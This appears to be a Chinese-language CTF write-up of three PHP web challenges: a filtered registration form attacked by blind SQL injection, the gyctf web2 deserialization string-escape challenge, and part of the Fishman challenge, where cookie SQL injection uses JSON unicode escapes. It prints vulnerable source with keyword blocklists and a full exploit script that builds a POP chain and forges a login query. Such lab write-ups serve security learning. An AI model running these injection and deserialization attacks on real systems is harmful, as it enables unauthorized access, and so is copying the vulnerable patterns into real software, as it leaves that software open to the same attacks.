```php
//reg.php
<?php
		error_reporting(0);
		$con = mysqli_connect("localhost","root","root","web15");
        if (!$con)
        {
            die('Could not connect: ' . mysqli_error());
        }
		$username=$_POST['username'];
		$password=$_POST['password'];
		$email=$_POST['email'];
		$nickname=$_POST['nickname'];
		if(preg_match("/group|union|select|from|or|and|regexp|substr|like|create|drop|\`|\!|\@|\#|\%|\^|\&|\*|\(|\)|\（|\）|\_|\+|\=|\]|\;|\'|\’|\“|\"|\<|\>|\?/i",$username)){
				die("error");
		}
		if(preg_match("/group|union|select|from|or|and|regexp|substr|like|create|drop|\`|\!|\@|\#|\%|\^|\&|\*|\(|\)|\（|\）|\_|\+|\=|\]|\;|\'|\’|\“|\"|\<|\>|\?/i",$password)){
				die("error");
		}
		if(preg_match("/group|union|select|from|or|and|regexp|substr|like|create|drop|\`|\!|\#|\%|\^|\&|\*|\(|\)|\（|\）|\-|\_|\+|\=|\{|\}\]|\'|\’|\“|\"|\<|\>|\?/i",$email)){
				die("error");
		}
		if(preg_match("/group|union|select|from|or|and|regexp|substr|like|create|drop|\`|\~|\!|\@|\#|\%|\^|\&|\*|\(|\)|\（|\）|\-|\_|\+|\=|\{|\}|\]|\;|\'|\’|\“|\"|\<|\>|\?/i",$nickname)){
				die("error");
		}
		if(isset($username) && isset($password) && isset($email) && isset($nickname)){
			$sql = "INSERT INTO user (uname, pwd, email,nname) VALUES ('$username', '$password', '$email','$nickname')";
            $res=mysqli_query($con, $sql);
            if ($res) {
				$_SESSION["login"] = true;
				header("location:/index.php");
			} 
		}
		mysqli_close($conn);
		

?>
```

这样的话上面的长字符就可以理解了，传入的值进行了md5加密处理

不过大部分字符都被过滤了，正常的union注入应该不太好注，尝试布尔盲注

得知密码列为pwd，那么就可以通过已知注册用户密码和flag来进行比较，通过位置来确定每一个字符，如果我们注册的密码字符大于flag用户的密码那么就会返回这个字符，通过判断去进行注入



也是贴的别的师傅的脚本

## game-gyctf web2

### #反序列化字符串逃逸

这道题的逃逸手法没怎么看懂，是看着师傅的wp去做的

[[CTFSHOW-日刷-game-gyctf web2/pop链-反序列字符逃逸]](https://www.cnblogs.com/aninock/p/15408090.html)



一个登录界面，但是页面看不到回显，抓包之后才能看到

传入1/1和admin/1发现存在用户名枚举的漏洞





常规扫目录看看有没有源码



把www.zip文件下载下来，我这里把一些没用的东西去掉了

```php
//login.php
<?php
require_once('lib.php');
?>
<?php 
$user=new user();
if(isset($_POST['username'])){
	if(preg_match("/union|select|drop|delete|insert|\#|\%|\`|\@|\\\\/i", $_POST['username'])){
		die("<br>Damn you, hacker!");
	}
	if(preg_match("/union|select|drop|delete|insert|\#|\%|\`|\@|\\\\/i", $_POST['password'])){
		die("Damn you, hacker!");
	}
	$user->login();
}
?>
```

在login.php文件里调用了user的login方法，跟进一下

```php
    public function login() {
        if(isset($_POST['username'])&&isset($_POST['password'])){
        $mysqli=new dbCtrl();
        $this->id=$mysqli->login('select id,password from user where username=?');
        if($this->id){
        $_SESSION['id']=$this->id;  
        $_SESSION['login']=1;
        echo "你的ID是".$_SESSION['id'];
        echo "你好！".$_SESSION['token'];
        echo "<script>window.location.href='./update.php'</script>";
        return $this->id;
        }
    }
```

这里调用了dbCtrl类中的login方法，实际上就是一个数据库查询方法

```php
    public function login($sql)
    {
        $this->mysqli=new mysqli($this->hostname, $this->dbuser, $this->dbpass, $this->database);
        if ($this->mysqli->connect_error) {
            die("连接失败，错误:" . $this->mysqli->connect_error);
        }
        $result=$this->mysqli->prepare($sql);
        $result->bind_param('s', $this->name);
        $result->execute();
        $result->bind_result($idResult, $passwordResult);
        $result->fetch();
        $result->close();
        if ($this->token=='admin') {
            return $idResult;
        }
        if (!$idResult) {
            echo('用户不存在!');
            return false;
        }
        if (md5($this->password)!==$passwordResult) {
            echo('密码错误！');
            return false;
        }
        $_SESSION['token']=$this->name;
        return $idResult;
    }
```

这里的话有两种条件可以返回用户id，第一个是让token等于admin，第二个是让password的md5加密值符合数据库查询结果中的password。但是只有在password的判断语句不满足之后才会对token进行一个赋值操作，再返回用户id，所以实际上也是只能看第二个方法。

我们重点关注那个查询语句

```
select id,password from user where username=?
```

通过where语句对传入的username去查询相应的id和password。

然后我们再来看update文件中的内容，可以看到要session[login]=1 ,才能获得flag

```php
<?php
require_once('lib.php');
if ($_SESSION['login']!=1){
	echo "你还没有登陆呢！";
}
$users=new User();
$users->update();
if($_SESSION['login']===1){
	require_once("flag.php");
	echo $flag;
}

?>
```

这里也是调用了update方法，我们来看一下

```php
public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'],$Info,"update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
```

对getNewinfo方法的结果进行一个反序列化，我们转向看这个方法

```php
    public function getNewInfo(){
        $age=$_POST['age'];
        $nickname=$_POST['nickname'];
        return safe(serialize(new Info($age,$nickname)));
    }
```

将传入的age和nickname传给Info对象

```php
class Info{
    public $age;
    public $nickname;
    public $CtrlCase;
    public function __construct($age,$nickname){
        $this->age=$age;
        $this->nickname=$nickname;
    }   
    public function __call($name,$argument){//在对象上下文中调用不可访问的方法时触发
        echo $this->CtrlCase->login($argument[0]);
    }
}
```

在call里面我们可以看到这里就可以触发我们的login方法，同时传入的参数$sql也是我们可控的，那么假如我们传入一个自定义的id和password，再集合我们自己post传入的password，就可以达到一个绕过的目的，例如我们的查询语句设置为

```
select 1,'c4ca4238a0b923820dcc509a6f75849b' from user where username=?
```

这里的话sql查询后返回的就是1的MD5值，也就是c4ca4238a0b923820dcc509a6f75849b，这时候我们让我们的post的password为1，就可以满足条件了

有思路之后我们就开始写pop链

```
UpdateHelper:__destruct()->User:__toString()->Info:__call()->
```

这里的话为了触发call方法，需要调用一个不存在的方法，在`__toString`方法中存在一个调用方法的步骤

```php
    public function __toString()
    {
        $this->nickname->update($this->age);
        return "0-0";
    }
```

如果我们让nickname为info类，此时调用了update方法，就可以触发call魔术方法

为了触发toString方法，需要将一个对象像字符串一样操作，然后在UpdateHelper类中看到一个析构方法

```php
Class UpdateHelper{
    public $id;
    public $newinfo;
    public $sql;
    public function __construct($newInfo,$sql){
        $newInfo=unserialize($newInfo);
        $upDate=new dbCtrl();
    }
    public function __destruct()
    {
        echo $this->$sql;
    }
}
```

我们只要设置sql为一个对象就可以了，这里设置sql为user类，那我们的exp就是

```php
<?php
class dbCtrl
{
    public $name="admin";
    public $password="1";
}
class Info{
        public $age;
    public $nickname;
    public $CtrlCase;
}
class User
{
    public $age="select 1,\"c4ca4238a0b923820dcc509a6f75849b\" from user where username=?";
    public $nickname;
}
Class UpdateHelper{
    public $sql;
}
$db=new dbCtrl();

$in=new Info();
$in->CtrlCase=$db;

$user=new User();
$user->nickname=$in;

$update=new UpdateHelper();
$update->sql=$user;

function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
//UpdateHelper:__destruct()->User:__toString()->Info:__call()
$db=new dbCtrl();
$in=new Info();
$user=new User();
$update=new UpdateHelper();
$update->sql=$user;
$user->nickname=$in;
$in->CtrlCase=$db;
echo serialize($update);
//O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";s:8:"nickname";O:4:"Info":3:{s:3:"age";N;s:8:"nickname";N;s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}}}

```

问题又来了，如何将我们序列化的数据进行反序列化呢，在源码中可以看到这里会序列化一个info类并将结果进行反序列化

```php
    public function update(){
        $Info=unserialize($this->getNewinfo());
        $age=$Info->age;
        $nickname=$Info->nickname;
        $updateAction=new UpdateHelper($_SESSION['id'],$Info,"update user SET age=$age,nickname=$nickname where id=".$_SESSION['id']);
        //这个功能还没有写完 先占坑
    }
    public function getNewInfo(){
        $age=$_POST['age'];
        $nickname=$_POST['nickname'];
        return safe(serialize(new Info($age,$nickname)));
    }
```

但是这里info只传入了两个参数，我们没法对第三个参数进行使用

我们让info传三个参数（除了传入的两个参数，还有一个ctrlcase参数），令这个参数为我们需要序列化的类

当一个对象序列化的时候，其中的对象也会跟着一起序列化。

怎么做呢，就是利用序列化字符串逃逸的手法

在lib.php里还有一段代码

```php
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
```

例如我们用load去进行逃逸，那么就会多出两个字符

那么最后的exp就是

```php
<?php
class dbCtrl
{
    public $name="admin";
    public $password="1";
}
class Info{
        public $age;
    public $nickname;
    public $CtrlCase;
}
class User
{
    public $age="select 1,\"c4ca4238a0b923820dcc509a6f75849b\" from user where username=?";
    public $nickname;
}
Class UpdateHelper{
    public $sql;
}
$db=new dbCtrl();

$in=new Info();
$in->CtrlCase=$db;

$user=new User();
$user->nickname=$in;

$update=new UpdateHelper();
$update->sql=$user;

//UpdateHelper:__destruct()->User:__toString()->Info:__call()
$db=new dbCtrl();
$in=new Info();
$user=new User();
$update=new UpdateHelper();
$update->sql=$user;
$user->nickname=$in;
$in->CtrlCase=$db;
echo serialize($update);

//O:12:"UpdateHelper":1:{s:3:"sql";O:4:"User":2:{s:3:"age";s:70:"select 1,"c4ca4238a0b923820dcc509a6f75849b" from user where username=?";s:8:"nickname";O:4:"Info":3:{s:3:"age";N;s:8:"nickname";N;s:8:"CtrlCase";O:6:"dbCtrl":2:{s:4:"name";s:5:"admin";s:8:"password";s:1:"1";}}}}

echo "\n";
function safe($parm){
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\\',"*","alter");
    return str_replace($array,'hacker',$parm);
}
$p=new Info();
$p->age="age123";
$m=str_repeat("load",146);
$p->nickname=$m."\";s:8:\"CtrlCase\";".serialize($ud).'}';
echo($p->nickname);
echo "\n";
echo safe(serialize($p));


```



接着用admin/1登录就可以成功拿到flag了

## web15 Fishman

hint1: 备份泄露，代码审计

提示备份泄露那就直接访问www.zip，果然有

目录结构



先看一下登录页面

```php
<?php
include ("../include/common.php");
if (isset($_POST['user']) && isset($_POST['pass']) && isset($_POST['login'])) {
    $user = addslashes($_POST['user']);
    $pass = addslashes($_POST['pass']);
    $safepassword = $_POST['safepassword'];
    $row = $DB->get_row("SELECT * FROM fish_admin WHERE username='$user' limit 1");
    if ($row['username'] == '') {
        exit("<script language='javascript'>alert('The administrator account or password is incorrect!');history.go(-1);</script>");
    } elseif (md5($pass) != $row['password']) {
        exit("<script language='javascript'>alert('The administrator account or password is incorrect!');history.go(-1);</script>");
    } elseif ($row['username'] == $user && $row['password'] == md5($pass)) {
        if (isset($_POST['ispersis'])) {
            $login_data['admin_user']=$user;
            $login_data['admin_pass']=sha1(md5($pass) . LOGIN_KEY);
            setcookie("islogin", "1",time() + 604800 );
            setcookie("login_data",json_encode($login_data),time() + 604800,null,null,true);
            $realip = real_ip();
            $address = getCity($realip);
            $ua = $_SERVER['HTTP_USER_AGENT'];
            $device = get_device($ua);
            $time = date("Y-m-d H:i:s");
            $sql = "INSERT INTO `fish_ip` (`admin`, `ip`, `addres`, `platform`, `date`) VALUES ('{$row['id']}','{$realip}','{$address}','{$device}','{$time}');";
            $DB->query($sql);
            unset($login_data);
            exit("<script language='javascript'>alert('login successful!');window.location.href='./';</script>");
        } else {
            $_SESSION['islogin'] = 1;
            $_SESSION['admin_user'] = base64_encode($user);
            $_SESSION['admin_pass'] = sha1(md5($pass) . LOGIN_KEY);
            $realip = real_ip();
            $address = getCity($realip);
            $ua = $_SERVER['HTTP_USER_AGENT'];
            $device = get_device($ua);
            $time = date("Y-m-d H:i:s");
            $sql = "INSERT INTO `fish_ip` (`admin`, `ip`, `addres`, `platform`, `date`) VALUES ('{$row['id']}','{$realip}','{$address}','{$device}','{$time}');";
            $DB->query($sql);
            exit("<script language='javascript'>alert('Login Successful!');window.location.href='./';</script>");
        }
    }
} elseif (isset($_GET['logout'])) {
    setcookie("islogin", "");
    setcookie("login_data", "");
    unset($_SESSION['islogin']);
    unset($_SESSION['admin_user']);
    unset($_SESSION['admin_pass']);
    exit("<script language='javascript'>alert('You have successfully logged out of this login!');window.location.href='./login.php';</script>");
} elseif ($islogin == 1) {
    exit("<script language='javascript'>alert('You are already logged in!');window.location.href='./';</script>");
} ?>
```

貌似这里过滤的比较严，没什么可用的地方

那看一下member.php

```php
<?php
if (!defined('IN_CRONLITE')) exit();
$islogin = 0;
if (isset($_COOKIE["islogin"])) {
    if ($_COOKIE["login_data"]) {
        $login_data = json_decode($_COOKIE['login_data'], true);
        $admin_user = $login_data['admin_user'];
        $udata = $DB->get_row("SELECT * FROM fish_admin WHERE username='$admin_user' limit 1");
        if ($udata['username'] == '') {
            setcookie("islogin", "", time() - 604800);
            setcookie("login_data", "", time() - 604800);
        }
        $admin_pass = sha1($udata['password'] . LOGIN_KEY);
        if ($admin_pass == $login_data['admin_pass']) {
            $islogin = 1;
        } else {
            setcookie("islogin", "", time() - 604800);
            setcookie("login_data", "", time() - 604800);
        }
    }
}
if (isset($_SESSION['islogin'])) {
    if ($_SESSION["admin_user"]) {
        $admin_user = base64_decode($_SESSION['admin_user']);
        $udata = $DB->get_row("SELECT * FROM fish_admin WHERE username='$admin_user' limit 1");
        $admin_pass = sha1($udata['password'] . LOGIN_KEY);
        if ($admin_pass == $_SESSION["admin_pass"]) {
            $islogin = 1;
        }
    }
}
?>
```

这里的话貌似有一个地方可以打，就是关于login_data键的值是没有任何过滤的，并且这里的话有json的解码，所以waf我们可以直接用unicode编码绕过

```php
def string_to_unicode_escape(text):
    """将字符串转换为 `\uXXXX` 格式的字符串"""
    return text.encode('unicode_escape').decode('ascii')
```
